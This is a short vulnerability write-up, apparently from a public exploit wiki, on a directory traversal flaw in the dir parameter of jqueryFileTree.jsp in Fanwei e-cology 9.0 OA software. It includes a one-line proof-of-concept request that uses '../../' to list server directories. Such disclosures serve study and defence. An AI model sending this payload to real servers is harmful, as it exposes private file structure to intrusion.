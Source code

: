 # Panwei OA E-Cology jqueryFileTree.jsp directory traversal vulnerability

## Vulnerability Description

Fanwei e-cology is an OA office system specially made for large and medium-sized enterprises. It supports PC, mobile and WeChat offices at the same time. There is a directory traversal vulnerability in the dir parameter in the jqueryFileTree.jsp file. The attacker can obtain the directory information of the server file through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Fanwei e-cology 9.0</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-2361681.png)

Verify POC

```php
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662361654117-6a9aece5-41fe-40de-a608-c3be49eb5a48.png)